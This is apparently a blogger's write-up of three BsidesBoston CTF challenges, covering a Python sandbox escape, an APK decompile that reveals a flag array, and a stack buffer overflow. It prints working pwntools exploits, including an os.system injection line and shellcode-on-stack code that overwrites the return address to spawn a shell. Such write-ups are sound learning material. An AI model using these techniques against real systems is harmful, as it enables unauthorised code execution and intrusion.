




## BsidesBoston: seashells, mobility, y2k

#### Played briefly on BsidesBoston last weekend, only played for about half an hour cause it was already late in my place when it started. Managed to solve only 3 challenges and somehow placed still placed 170th/1008. I registered using a different name, I'm gonna find a way to merge my scores to my main team somehow.



## warmup: y2k
> They told us the world was going to end in the year 2000! But it didn't... when will the world end?

#### Connecting to the instance and playing around with it, we came to deduce from the errors when providing invalid input that it was a python sandbox challenge. My plan was to get access to the os module and execute the system function from it.
```python
from pwn import *

p = remote('challenge.ctf.games', 31656)
print(p.recv())
p.sendline("__import__('os').system('cat flag.txt')")
print(p.recv())
```
#### Flag: `flag{we_are_saved_from_py2_k}`

## forensics: mobility
> Always wanted to calculate HMACs on your phone? Check out our new app! It supports 6 different algorithms.

#### We are given an apk which we need to reverse. I simply decompiled it using jadx-gui and examined the code in the MainActivity.java file. It was a program to calculate the HMAC of a given user input. We can see an interesting array with easily recognizable decimal values; the first four of which are the ascii values for 'flag'. Translating the contents of this array gets us the flag.

#### Flag: `flag{classic_apk_decompile_shenanigans}`

## pwn: seashells
> Can you collect all the shells?

#### Baby pwn challenge for this ctf. Running it for the first time, we receive what looks like a stack address. We can verify this by checking the memory mappings with gdb. Since all protections are off, we can simply do the classic shellcode on stack then redirect the code flow to the given stack address (which is the address of the input we provide).
```python
from pwn import *

#:
p = process('./seashells')
#p = remote('challenge.ctf.games', 32134)
#db.attach(p, 'break *main')
leak = int(p.recvuntil('\n'), 16)
print('[*] stack leak: {}'.format(hex(leak)))

context.arch = 'amd64'
exploit = asm(shellcraft.sh())
exploit += '\x00' * (136 - len(exploit))
exploit += p64(leak)

print(p.recv())
p.sendline(exploit)
print(p.recv())
p.interactive()
```

#### Flag: `flag{popping_shells_by_the_sea_shore}`